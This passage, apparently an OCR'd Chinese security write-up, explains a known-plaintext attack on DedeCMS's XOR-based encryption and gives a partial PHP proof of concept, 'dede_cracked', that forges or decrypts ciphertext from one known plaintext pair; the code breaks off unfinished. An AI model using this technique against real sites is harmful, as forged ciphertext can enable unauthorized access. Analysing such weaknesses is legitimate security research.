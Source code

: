 聯立得（尼瑪像是在做奧數。。） A^K1^B^K2 =a 即A^B^a = K1^K2，同理可得到C^D^b = K3^K4 E^F ^c=K5^K6
<p>
k1~32是 密匙k的32位 md5值，是固定不變的。
<p>
那麼 得到如下 如下關係： 任何密文的i ，i+1 位 與其所對應的的 明文的 i 位 做異或運算(i為偶數) 結果是一個固定不變的值（Ki^Ki+1）
<p>
so，我們只需要一個已知明文的密文就可以 構造任意密文了。
<p>
poc如下，

```php
function dede_cracked($Expressly,$Ciphertext,$str,$way)
{

		$Ciphertext = base64_decode($Ciphertext);

			if ($way=="descrypt")
			{

				$text2="";

				$str=base64_decode($str);

			}
			else
			{

				$text2="a";

			}

				$j=0;

				$s=0;

				for($i=0;$i<strlen($str);$i++,$s++){

				if($j==32){$j=0;$s=0;}

				$tmp=$Ciphertext[$j]^$Ciphertext[$j+1];

				$tmp=$tmp^$Expressly[$s];

				$tmp=$tmp^$str[$i];

			if ($way=="descrypt")
			{

				$text1=$tmp^$str[++$i];

			}

			else
			{

				$text1=$tmp^$text2;

			}

		$xxoo =$xxoo.$text2.$text1;

		$j=$j+2;

}
```